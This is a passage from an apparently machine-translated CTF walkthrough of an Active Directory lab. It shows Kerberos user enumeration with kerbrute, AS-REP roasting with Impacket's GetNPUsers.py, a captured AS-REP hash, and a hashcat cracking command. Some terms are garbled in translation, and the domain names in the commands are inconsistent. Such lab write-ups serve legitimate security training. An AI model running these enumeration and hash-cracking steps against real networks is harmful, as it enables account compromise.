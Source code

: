 *****employee _ status . xlsx***文件内容。**

**我可以看到 haven secret hacker 俱乐部中的玩家及其角色列表。用户"***ljudmila vetrova***"特别有趣，因为他们是活动目录管理员。**

# **Kerberos 枚举**

**Kerberos 是运行在端口 88 上的 Active Directory 中的一项关键身份验证服务。我们可以使用工具**Kerberos**来枚举用户，通过 Kerberos 预认证，可以快速强制枚举有效的 Active Directory 帐户。要使用 **kerbrute** ，我们需要指定域名并提供一个用户列表。此前，NMAP 根据 3389 端口提供的信息，已将该域名确定为“***”Raz 0 rblack . thm***”。**

```
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: **raz0rblack.thm**
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
```

**我们还可以利用前面在“***employee _ status . xlsx***”文件中发现的姓名列表来枚举用户。根据用于“ *sbradley.txt* ”和质询问题的命名约定，用户名字的首字母与其姓氏连接在一起。在基于“***employee _ status . xlsx***”文件中的名称列表创建用户列表时，我使用了这个命名约定。**

```
./kerbrute_linux_amd64 userenum --dc 10.10.253.179 -d spookysec.local -o kerbrute-user-enum userlist2022/04/09 20:40:42 >  [+] VALID USERNAME:  lvetrova@raz0rblack.thm
2022/04/09 20:40:42 >  [+] VALID USERNAME:  twilliams@raz0rblack.thm
2022/04/09 20:40:42 >  [+] VALID USERNAME:  sbradley@raz0rblack.thm
```

## **as 重新发布**

**现在我有了一些用户名，我决定进行重新发布。当用户帐户设置了权限“*不需要预认证*”时，会出现这种情况。这意味着在请求指定用户帐户上的 Kerberos 票证之前，帐户不需要提供有效的身份证明。使用 Impacket 工具"***getnpusers . py***"，我们可以检查之前用 Kerberos 标识的枚举用户列表。**

```
sudo python3 GetNPUsers.py raz0rblack.thm/ -dc-ip 10.10.160.198 -usersfile kerberos-usernames -no-pass -request -outputfile kerberos-users-found
```

**查看输出文件，我可以看到我们为用户“***twilliams @ Raz 0 r black . thm***”获得了一张 TGT 的票**

```
$krb5asrep$23$twilliams@raz0rblack.thm@RAZ0RBLACK.THM:50792603765164974bfbcf6b50a79f03$515241628dc6711dd499f6e5c23493b674b4b641c55df1b773fcccc0322ec68b45fa32e84c5f9b6d1097fac39097e6302f7835af51c6c05ac1b5fa392737eb021ea564c392916745a29ac4f7b37f735970ce9bb904c74ebb530086dc93e9b7b8b494e33393430deac61523ebae352a820d64d081fd112219e66331e4cb9ca45f5bba18276606c307b541ee7196d57c224e0f6a491fb0e1327dc2fc63ee62b56e0244a93ef6de3d56ee346fb439674d08ea745d8f927225daf809979329dd0b217d7633f47bcd864b82c135c1f1203b7290f14ad4fec88dce9c49b8e2afa381e5568e7a39fde062ff9d659270015fa9ca
```

**接下来，我可以使用 **hashcat** 来破解从 KDC 中检索到的"***Kerberos 5 AS-REP etype 23***"哈希。**

```
hashcat64.exe -m 18200 -a 0 hash.txt rockyou.txt 
```
